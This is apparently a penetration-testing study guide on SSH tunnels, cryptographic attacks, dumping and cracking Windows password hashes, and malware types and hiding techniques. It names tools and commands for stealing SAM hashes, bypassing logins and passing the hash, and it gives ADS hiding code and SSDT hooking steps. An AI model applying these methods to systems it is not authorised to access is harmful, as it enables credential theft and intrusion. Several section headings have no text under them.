An **SSH tunnel** is an encrypted tunnel created through an SSH protocol connection, that may be used to tunnel unencrypted traffic over a network. SSH allows one to tunnel any protocol within a secure channel.
SSH tunnels provide a means to bypass firewalls that prohibit certain Internet services provided that outgoing connections are allowed. Corporate policies and filters can be bypassed by using SSH tunnels.

To create an SSH tunnel, an SSH client is configured to forward a specified local port to a port on the remote machine.
`ssh -L <LocalPort>:<RemoteHost>:<RemotePort> <SSHUsername>@<SSHServer>`: where `-L` is used to initiate a tunnel.
The traffic to the local port (SSH client) is forwarded to the remote host on the remote port (SSH server) through the SSH tunnel. The traffic between SSH client and server will be encrypted.

### Cryptographic Attacks - Study Guide

Cryptographic attacks are attempts to subvert the security of the crypto algorithms by exploiting weaknesses with the goal to decipher ciphertext without knowing the key.

Classification of cryptographic attacks depends on the type of data available:
- Known only attack:
	- Known plaintext only attack. A cryptanalyst has access to a plaintext and the corresponding ciphertext.
	- Known ciphertext only attack. The attacker only knows the ciphertext but no plaintext.
- Chosen attack:
	- Chosen plaintext attack. Similar to the known plaintext only attack but the plaintext can be attacker's choosing.
	- Chosen ciphertext attack. This method is used when the attacker only knows the ciphertext of his choosing and works his way back towards the plaintext. This method is very commonly used again public-private key encryption because the public key is widely known and finding private key will defeat the cipher.
- Adaptive chosen plaintext/ciphertext attack. In both methods, attacker can choose plaintext or ciphertext respectively one block after the other (based on previous results) which leads to the defeat of the cipher.

**Brute force attacks**.

A brute force attack attempts every combination of the key. It is most often used in a known plaintext or ciphertext only attack when the attacker can easily verify the correctness of the guess.
A brute force attack is always successful no matter how big the key is. Algorithm considered secure now, sooner or later will become obsolete.

**Dictionary attacks**.

A dictionary attack attempts the most likely keys. Especially for symmetric key algorithms where keys are selected by users, this approach can work better than the brute force attack.
The attack is only successful if the dictionary contains the key.
The explored key space is far smaller compared to the brute force attack.
Dictionary attacks succeed because of the human factor.

**Rainbow tables**.

Over the years, CPU increase of speed has slowed down while storage costs have become considerably affordable.
A rainbow table makes use of the available storage to compute (and store) plaintext-cipehertext correspondences ahead of time. Pre-computation is indeed the technique used with rainbow tables.

Let's say you have a ciphertext being a digest. You want to uncover the corresponding plaintext(s).
In a brute force attack you would try all possible combinations of plaintexts until the ciphertext and the generated digest are equal.
With a rainbow table you would only do a search for the ciphertext within the rainbow table. If present, you will immediately get the corresponding plaintext.

**Side channels attacks**.

Side channel attacks don't rely just on plaintext/ciphertext information to attack crypto algorithms.
They also take into account physical implementation including the hardware used to encrypt or decrypt data. Time taken to perform an encryption, CPU cycles used and even absorbed power variation during the algorithm can produce important information to a crypto analyst.

**Birthday attack**

The birthday attack is an attack that can discover collisions in hashing algorithms. It is based on the Birthday Paradox, which states that if there are 23 people in a room, the odds are slightly greater than 50% that two will share the same birthday.

The key to understanding the attack is remembering that it is the odds of any two people (out of the 23) sharing a birthday, and it is not the odds of sharing a birthday with a specific person.

### Security Pitfalls Implementing Cryptographic Systems - Study Guide

Most of the times, an attacker will not directly attack the cryptographic algorithms. They instead attack their implementation. Indeed, the correct implementation of cryptographic systems is a difficult goal which is hard to achieve.
A system made of many secure inner blocks it's not automatically a secure system.

Sometimes attackers do not attack their target directly. They can instead exploit trust systems or roles that the target assumes to be trusted.
Simple systems use simple trust models because more secure trust models might break usability. Complex systems (like ecommerce) instead employ more complex trust models (like signed certificates).

An e-mail program might use secure crypto algorithms to encrypt messages, but unless the public keys are certified by a trusted source (and unless that certification can be verified), the system is still vulnerable.
A website can trust data coming from the database. What if someone gains access to the database?

Cryptographic algorithm that rely on the security of other network protocols make an assumption: that these protocols are secure.
Attacking network protocols to break a system that uses an unbreakable cryptography algorithm is what happens everyday on the internet.

Attacks against passwords are very common. Many systems break because they rely on user-generated passwords.
People don't choose strong passwords, it's a fact that software architect should deal with.
If they're forced to use strong passwords, users can't remember them or just write them on a file in cleartext.
Dictionary attacks indeed work really well when the dictionary is targeted to the environment, country, age and language of the target.
Even when these passwords are strong and fed to unbreakable cryptographic algorithm the system can be broken through more or less sophisticated social engineering. When you think about phishing websites or installed malware that uses keylogging to steal passwords, cryptography or password strength are just useless.
Users are the weakest link of the chain.

### Windows Passwords - Study Guide

All the passwords in Windows (except in Domain Controller configuration) are stored in a configuration database called SAM. The **Security Accounts Manager** (SAM) is a database stored as a registry file in Windows NT, Windows 2000, and later versions of Windows.

It stores users' passwords in a hashed format (LM and NT hash).
Since a hash function is one-way, this provides some measure of security for the storage of the passwords.

Until Window Vista, if passwords were smaller than 15 characters, they were stored as **LM hash**.
All passwords from Windows 2000 are (also) stored as **NT hashes**. The truth is that LM hashes are still computed and stored by default up to Windows Vista, for backward compatibility.

Where are the hashes?

These hashes are stored in the Windows SAM file.
This file is located on your system at `C:\Windows\System32\config`. But, it is not accessible while the operating system is running.
These values are also stored in the registry at `HKEY LOCAL MACHINE\SAM`. But again this area of the registry is also not accessible while the operating system is running and requires `SYSTEM` privileges anyway.

Stealing the hashes.

Once obtained the password hashes, these can be cracked to obtain the password or used to log in on the remote machine using other techniques (e.g. pass-the-hash).

There are different options to dump the hashes depending on the level of access you have to the machine:
- **Remote access**.
- **Local access**.

**Remote access**.

The passwords hashes can be dumped from the memory of remote system, by loading one of the following tools:
- [pwdump](http://www.foofus.net/fizzgig/pwdump)
- [fgdump](http://foofus.net/goons/fizzgig/fgdump)
- [ophcrack](http://ophcrack.sourceforge.net).
Note that this requires *at least an administrative account*.

Furthermore, let's assume we have an active Meterpreter session with a `NT AUTHORITY/SYSTEM` logged user. We can use `run hashdump` to dump the hashes.

**Local access**.

Here you need physical access to the machine.
At this point there are two cases:
- **Running system**. A local administrator account is required to extract hashes from the memory.
- **Off-line system**. Passwords hashes are decrypted from the offline password storage file SAM. The key to decrypt SAM is stored in SYSTEM file.

**Running system**.

There are situations in which you cannot just reboot or turn off the victim machine. Maybe because you want to be stealthy or maybe because the machine have other security measures at start-up. The only thing you need to know is that if you want to steal hashes from a running system, you must have *at least Administrator privileges*.

There are many tools (e.g. pwdump, fgdump, SAMinside, ophcrack, l0phtCrack) that can help you dump hashes from a live system if you have correct privileges.
All these tools are very simple to use. You just have to run them and wait for the hashes.

**Off-line system**.

If you have physical access to the off-line machine, you have a few more options than if you had a live system: 
- Steal hash (using previous tools).
- Overwrite hashes.
- Bypass Windows login.

**Steal the hash**.

In this case, we will use a live version of Kali Linux that we will boot before the Windows operating system.
The next step is to mount the partition where Windows is installed and then move in the directory `/mnt/sda1/WINDOWS/system32/config`, where we have the SAM file where the hashes are stored.
So how can we retrieve them using tools like **bkhive** or **samdump2**.

Remember that if you can boot any other operating system, you can always copy files like SAM, and then later, load them into one of the tools we have seen so far.

**Overwrite the hash**.

Instead of stealing hashes, we can use tools to change the SAM file content.
We can simply boot a live version of Kali Linux and run a tool like **chntpw**, that allows to: clear or change passwords, and also promote users to Administrator.

**Bypass login**.

Another method to get access to a machine is to bypass Windows login.
**Kon-Boot** is a software which allows to change contents of a Linux and Windows kernel on the fly (while booting).
It allows to log into a system as root user without typing the correct password or to elevate privileges from current user to root.

What to do with hashes?

At this point, assume that we have obtained the password hashes from a Windows OS.
Our purpose is to gain access to the victim machine, so we can now move in two different directions:
- **Pass-the-hash**.
- **Crack the hash**.

**Pass-the-hash**.

Let's assume that we do not want to crack the obtained password hashes because it takes time, or that we have not been lucky.
Pass-the-hash is a different kind of authentication attack that allows us to use LM and NT hashes to gain access to a remote Windows host without having to know the actual password, we will only use the hash.

**Crack the hash**.

The hash is usually more then just a messy version of the original password. It is a one-way transform, meaning that you cannot get your password back using a reverse function.
So, to crack the hash, we need to use the correct hash function to hash plaintexts of likely passwords. When you get a match, whatever string you used to generate your hash, that's the password you were looking for.

Since this can be rather time-consuming, there are many ways to do that, and many tools that automate this step.
Crack a hash is strictly depending on the hardware you have (CPUs and also GPUs).

One of the most famous password crackers is [**John the Ripper**](http://www.openwall.com/john/), with which we can perform different attacks, like dictionary or bruteforce.
Another useful tool that uses GPU to crack hashes is [**Hashcat**](https://hashcat.net/hashcat/).
Another tool that you can use is [**RainbowCrack**](http://project-rainbowcrack.com/), that allows you to use rainbow tables to crack hashes but using GPU instead of CPU.
The problem in there is that rainbow tables are not free, but if you want you can calculate them with **rtgen.exe**.

## Malware

### Classification - Study Guide

Malware is the short form of *malicious software*. It is basically a software written to cause damage or infiltrate computer systems without the owner's informed consent.

Basically, the point to note that is that there is no clear line which distinguishes one form or malware from other.
Normally malwares are found in pairs with multiple variants simultaneously active on the target system.

**Virus**.

A *virus* is a computer program that copies itself and spreads without the permission or knowledge of the owner.
Viruses do not spread via exploiting vulnerabilities (the ones that do that are called worms).

Viruses can be classified into the following sub-types:
- *Resident* type: which when executed becomes memory resident (and waits for some triggers such as loading of other program). It then infects other programs and so on.
- *Non-resident* type: once a virus is executed, it will search for files it can infect. Then after infecting them, it will quit. When the infected program is run again, it will again find new targets and so on.
- *Boot-sector* virus: which spreads via boot sectors. For example, if a user leaves a infected CD-ROM while turning off a system, the next time system will boot-up, the boot sector virus will activate and will thus spread to the hard- disk which will then spread it to another floppy disks. When floppies/pen drives are moved, the cycle gets repeated.
- *Multi-partite* type: these viruses have several types of infection mechanisms such as they can have both boot-sector and resident type virus or even more.

**Trojan Horse**.

A *trojan horse* (or simply trojan) is a kind of malware that appears to the user to perform a function, but in-fact facilitates unauthorized access to the owner's system.

**Rootkit**.

A *rootkit* is a malware which is designed to hide the fact that a compromise has already been done or to do the compromise at a deeper level.
A rootkit is basically used as a supplement to other malware.

Basically, rootkits can be used to hide processes, files on the file system, implement backdoors and/or create loopholes. They are basically installed as drivers (or kernel modules).

They are known to exist at the following levels:
- *Application* level. They replace actually programs with copies of other programs.
- *Library* level. Let us say that N applications are sharing a library, taking control of the library means taking control of all N apps.
- *Kernel* level. This is the most common type. They are known for their resistance to removal since they run at the same privilege level at which Anti-virus solutions run.
- *Hypervisor* level. These days, processors have come up with support for virtualization. Rootkits which use such processor specific technologies are called hyper-visor rootkits.
- *Firmware* level. Rootkits for firmware such as BIOS,ACPI tables or device ROMS are known to exist. They have the highest chance of survival because currently, no tools exist to verify/scan up the firmware level rootkits.

**Bootkit**.

*Bootkits* are rootkits which grab the OS during the boot process.
They differ from the rootkits in the installation process and how and when they take control of the OS.
They start attacking the OS when the OS has not even started, so they are able to completely violate the security of the target operating system.

**Backdoor**.

A *backdoor* is a software (or modification to the software) which helps in bypassing authentication mechanism, keeping remote access open (for later unauthorized purpose) which trying to remain hidden.

**Adware**.

*Adware* is basically advertising supported software which displays ads from time-to-time during the use of the software.
Some adware also act as spyware. Adware also install other unwanted software on the users system which might/might not be malware without owner's consent.

**Spyware**.

A *spyware* is a software(kind of malware) which keeps on spying the user activities such as collecting user information (what he types), his website visiting record and other information without the consent of the computer owner.

The information is sent to the author after a certain amount has been collected.
Normally, a system which has spyware also has other kinds of malware such as rootkits/trojans to hide the tracks and to keep in control of the machine.

**Greyware**.

This is a collective name of spyware and adware. A *greyware* can either be a spyware or adware or both. Thus, all spyware and adware software are collectively referred as greyware.

**Dialer**.

A *dialer* is a software which is used to connect to the internet but instead of connecting to normal numbers, they connect to premium numbers which are charged highly. Thus, the owner of the dialer who has setup the stuff makes big sums of money.

**Keylogger**.

*Key-loggers* are malware which log down key pressed by the key-owner without the consent of the owner. Thus, the person is unaware that his actions are being monitored.

There are numerous kinds and methods of keylogging such as:
- *Software* keylogger. Kernel mode or user mode keyloggers.
- *Hardware* keylogger. Firmware based keylogger can be put in the BIOS. PS/2 and USB keyboards can be sniffed with an additional device placed between the keyboard port and CPU.
- *Wireless keyboard sniffer*. Passive sniffers can be used to collect keyboard data in case of wireless keyboards.
- *Acoustic* Keylogger. These kinds of keylogger are based on the sound made when a key is struck by the user. After some time of data logging, clear patterns can be distinguished when a key is pressed or release which leads to remote passive keylogging.
- *Optical* keylogger.  Optical keylogging can be done by a person standing beside you.

**Botnet**.

*Botnet* refers to a collection of compromised computers which run commands automatically and autonomously (with the help of command and control server).
Botnets are typically created when a number of clients install the same malware.
This is usually done via drive-by-downloads (drive-by-download means a compromised website will try to exploit your web browser and install a software without user consent).

The controller or owner of the botnet is called a bot master and is usually the one who gives commands to the bots.
Botnets are used by the botmaster for reasons such as distributed denial of service, sending SPAM, etc.

**Ransomware**.

A *ransomware* is a software which locks down important files with a password and then demands from the user to send money and in return promises to unlock files.
They are also called extortive malware since they demand extortion money (ransom) for restoration of user data.

**Data-Stealing Malware**.

*Data stealing malware* basically steals data such as private encryption keys, credit-card data, competitors data such as internal secret algorithms, new product designs and other internal data which could be used by third party to cause damage to the original data owner.

**Worm**.

*Worms* are basically software which use network/system vulnerabilities to spread themselves from system to system.
They are typically part of other software such as rootkit and are normally the entry point into the system.
They basically compromise the system (locally or remotely) and then provide access to other software such as bot clients, spyware, key-loggers and so on.

### Techniques Used by Malware - Study Guide

The most important covert methods are:
- Streams.
- Hooking native APIs/SSDT.
- Hooking IRP.

**Streams**.

Streams are a feature of NTFS file system, they are not available on FAT file systems.
Microsoft calls them Alternate Data Stream. The original data stream is file data itself (it is the data stream with no name), all other streams have a name. Alternate data streams can be used to store file meta data/or any other data.

Example:
`echo "This data is hidden in the stream. Can you read it???" >> sample.txt:hstream`.
Now you can check the file named `sample.txt`. You will be surprised to see that file size is reported as 0 bytes.
To retrieve back your data:
`more < sample.txt:hstream`

Now, let us explain how to use the streams programmatically.
In the `CreateFile` API in windows, just append `: stream_name` to the file name, where `stream_name` is the name of the stream.

Example:
```c++
#include <windows.h>
#include <stdio.h>

void main()
{
	hStream = CreateFile("sample.txt:my_stream",
		GENERIC_WRITE,
		FILE_SHARE_WRITE,
		NULL,
		OPEN_ALWAYS,
		0,
		NULL);
	if (hStream == INVALID_HANDLE_VALUE)
		printf("Cannot open sample.txt:my_stream\n");
	else
		WriteFile(hStream, "This data is hidden in the stream. Can you read it???", 53, &dwRet, NULL);
}
```

**Hooking native APIs/SSDT**.

SSDT stands for *System Service Descriptor Table*. *Native API* is API which resides in `ntdll.dll` and is basically used to communicate with kernel mode. This communication happens using SSDT table.

For each entry in SSDT table, there is a suitable function in kernel mode which completes the task specified by the API:
User mode Native API <=> SSDT Table <=> Kernel mode.

SSDT table resides in the kernel and is exported as `KeServiceDescriptorTable`.
The following are the services available for reading/writing files:
- `NtOpenFile`
- `NtCreateFile`
- `NtReadFile`
- `NtWriteFile`
- `NtQueryDirectoryFile`.

Example:
Let us consider the case of a directory query. For that, we have to hook `NtQueryDirectoryFile`.
"Hooking" means that we want our (malicious) function to be called instead of the actual function.

1. Hook SSDT table entry corresponding to `NtQueryDirectoryFile`.
2. Now, whenever the above function is called, your function will be called.
3. Right after your function gets called, call original function and get its result (directory listing).
4. If the result was successful, modify the results (hide the file/sub-directory you want to hide).
5. Now pass back the results to the caller.
6. You are hidden.

However, nowadays almost all anti-virus/rootkit-detectors scan SSDT table for modifications (they can compare it with the copy stored in the kernel) and thus detection can be done.

**Hooking IRP**.


**Hiding a Process**.


**API Hooking**.


**Anti-Debugging Methods**.


**Anti-Virtual Machine**.


**Obfuscation**.


**Packets**.


**Polymorphism**.


**Metamorphism**.


### How Malware Spreads - Study Guide

Malware basically spreads via a large number of mechanisms such as:
- Email Attachments.
- Already Infected Files.
- Peer-2-peer File Sharing.
- Web-sites.
- Internet Connection/Local Network.

**Already Infected Files**.

Let us say that you were infected by a virus and it was there for around one day, before you noticed and removed it.
You should really think about what it might have already done during the one day time frame.
If the virus was a re-infection kind, then it must have infected numerous other files, which open access/execution will activate the virus again.
Once you are infected with a virus, it is then very hard to remove the infection from the system.

**Peer-2-peer File Sharing**.

P2P file-sharing was started with sharing of music files (via Napster).
Nowadays, around 30%-40% of all available files in file sharing networks can be assumed to be infected with malware.

Moreover, some of the clients (programs used to access some specific network) are ad-supported or are pre-bundled with malware. Also, since these clients have to be connected to internet to function, their network-interfacing code has not been verified by any 3rd party. They might contain hidden backdoors (both knowingly and unknowingly).

**Web-sites**.

Websites are the second most (maybe topmost) method used by malware to spread.
These kind of attacks are also called drive-by-downloads.

**Internet Connection/Local Network**.

Almost all computers get connected to a network these days, it can be a local internal network or internet itself.
These kind of glitches also occur in Windows networking stack (Linux also has its own set of bugs) which are found from time and time, and then rapidly exploited by malware to spread directly.

These kind of vulnerabilities do not require any user action.
However, these kind of attacks can be stopped by using correctly configured firewalls or simply applying patches.
Remember that we have written "correctly configured firewall" because a badly configured firewall does not offer any protection at all.
However, do note that firewalls themselves have their own sets of bugs, so they themselves can be vulnerable, so the best way to be protected is to update your software as soon as possible.

Some people think that they have updated their OS, Antivirus, firewall and other software, so they are 100% secure. There is no 100% security ever. The only machine 100% secure is that disconnected from the network and locked down physically and of course is not in use.

---
---
